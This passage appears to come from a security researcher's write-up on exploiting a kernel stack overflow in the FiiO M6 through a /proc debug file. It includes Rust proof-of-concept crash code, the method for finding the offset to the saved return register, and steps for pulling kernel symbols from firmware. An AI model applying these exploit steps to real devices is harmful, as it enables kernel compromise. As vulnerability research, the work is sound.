 ```rust
use std::io::{Read, Write, stdin, stdout};
use std::fs::OpenOptions;
 
fn main() {
	// create our long payload
    let mut buf = vec![0x41u8; 32 * 1024];
    println!("{}", buf.len());

	// open /proc/ftxxxx-debug for writing
    let path = "/proc/ftxxxx-debug";
    let fd = OpenOptions::new().write(true).open(path);

    print!("Writing {:?}\n", path);
    if let Ok(mut fd) = fd {
		let fuzz_size = buf.len();
		let _ = fd.write(&buf[..fuzz_size]);    }
}
```
For this proof-of-concept code, I chose an arbitrarily long buffer (32 * 1024 bytes) which I knew would cause a crash. However, after confirming there were no stack canaries, the first step for the exploit was to determine the offset to the saved link register (`x30`). At the end of each function call in ARM64, this saved value is popped back off the stack into `x30`. Upon encountering a `RET` instruction, the program loads the value of `x30` into the `PC`. 

To determine the offset, I manually created random payloads and then checked what the `PC` value was in the kernel crash. After a few attempts, I was able to determine that the offset was 1024 bytes. As such, we can update the crash PoC to have the following payload:

```rust
// ... previous code ...
let mut buf = vec![0x41u8, 8 * 128]; // 1024 bytes of junk 0x41s
let mut buf1 = vec![0x42u8, 8]; // 8 bytes of 0x42, overwriting our saved x30 address
buf.append(&mut buf1);
// ... previous code ...
``` 

Reviewing the kernel panic now, the `PC` is filled with our 8 `0x42`s, indicating that we have successfully found the offset to the saved `x30` value and can redirect program execution.

![kernel_panic_offset](kernel_panic_offset.png)

## Obtaining the Kernel Symbols
The next step of the process was to obtain kernel symbols. While our `shell` user *does* have read privileges to `/proc/kallsyms`, `kptr_restrict` is set to 2 and thus all the addresses are shown as 0.

![kptr_restrict](kptr_restrict.png)

After a bit of digging, I found a [GitHub repo](https://github.com/ycc57b/ksyms_finder) dedicated to extracting symbols from ARM64 Android Kernel images. I was able to obtain the firmware for the FiiO M6 [directly from their website](https://forum.fiio.com/note/showNoteContent.do?id=202105171712474610816&tid=74). Extracting the provided zip file was enough to obtain the kernel image individually. Using it with the script from GitHub, we can dump all the kernel symbols! Since there's no KASLR, these are static values which we can hardcode into our exploit.
